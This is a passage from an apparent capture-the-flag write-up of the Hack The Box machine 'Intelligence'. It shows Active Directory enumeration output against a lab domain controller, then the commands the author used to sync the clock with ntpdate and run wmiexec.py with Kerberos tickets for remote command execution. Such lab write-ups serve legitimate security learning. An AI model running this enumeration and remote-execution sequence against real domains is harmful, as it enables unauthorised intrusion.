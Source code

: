 ```zsh
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 43 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: svc_int.intelligence.htb
INFO: Querying computer: dc.intelligence.htb
WARNING: Could not resolve: svc_int.intelligence.htb: The DNS query name does not exist: svc_int.intelligence.htb.
INFO: Done in 00M 11S
```
Later Bloodhound it is suppose to show something, but in my case it doesnt show. So I follow the official writeup pages 11 and 12. For those steps its crutial to update the clock and right away try the next command. It took several tries of this to work. 
```zsh
ntpdate -s 10.10.10.248
wmiexec.py -k -no-pass dc.intelligence.htb
```

